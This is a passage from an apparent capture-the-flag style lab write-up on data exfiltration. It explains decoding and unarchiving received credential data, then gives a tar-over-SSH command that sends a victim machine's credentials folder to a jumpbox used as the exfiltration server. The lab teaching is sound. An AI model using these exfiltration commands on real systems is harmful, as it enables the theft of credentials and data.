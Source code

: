     # unarchive the data
    tar xf task4-creds.tar
    ```
    
    Let's break down the commands again:

    1. `dd conv=ascii if=task4-creds.data | base64 -d > task4-creds.tar` does the opposite of what we did before, that is, decoding the data.
        - `dd conv=ascii if=task4-creds.data` This part of the command uses the `dd` utility to read data from the input file `task4-creds.data`. The `conv=ascii` option specifies that the data should be converted from *EBCDIC* encoding to *ASCII*. The `if=task4-creds.data` option specifies the input file as `task4-creds.data`.

        - `|` This is a pipe operator, which we explained before.

        - `base64 -d` This part of the command uses the `base64` utility to decode the input data. The `-d` option indicates that it's meant for decoding.

        - `> task4-creds.tar` This portion of the command redirects the decoded data to an output file named `task4-creds.tar`. The data, which was originally encoded and then decoded, is saved in this file.

    2. `tar` We are using the `tar` utility again, but this time for extracting the directory.
        - `x` This option stands for "extract", and it is used to extract the contents of an archive.
        - `f` This option specifies that the next argument will be the name of the archive file from which we want to extract the contents. In this case, `task4-creds.tar` is the archive file.


    ![Decoding and unarchiving data](decode-unarchive-data.png)

## 4. SSH Data Exfiltration

To transfer data over SSH, we can either use the Secure Copy Protocol, `scp`, or the SSH client. For this task, we assume that we don't have the `scp` command available. 

We will use the Jumpbox as our exfiltration server, since it has an SSH server enabled. Since we are already on `victim1`'s machine, we will use this as our target to trasmit the `task5/creds.txt` file.

![Files to be trasmitted](task5-creds.png)

We will use the same method as before to archive the data, but this time instead of redictering them through a TCP socket, we will send the standard output via SSH:

```shell
tar zcf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"
```

The above command creates a tarball and sends it over SSH to the Jumpbox SSH server for extraction. SSH clients provide a way to execute a single command without having a full session. Let's break it down step by step:

1. `tar zcf - task5/` We have seen this part of the command before, which compresses and archives the data.

2. `|` We have also seen what the *pipe operator* does.

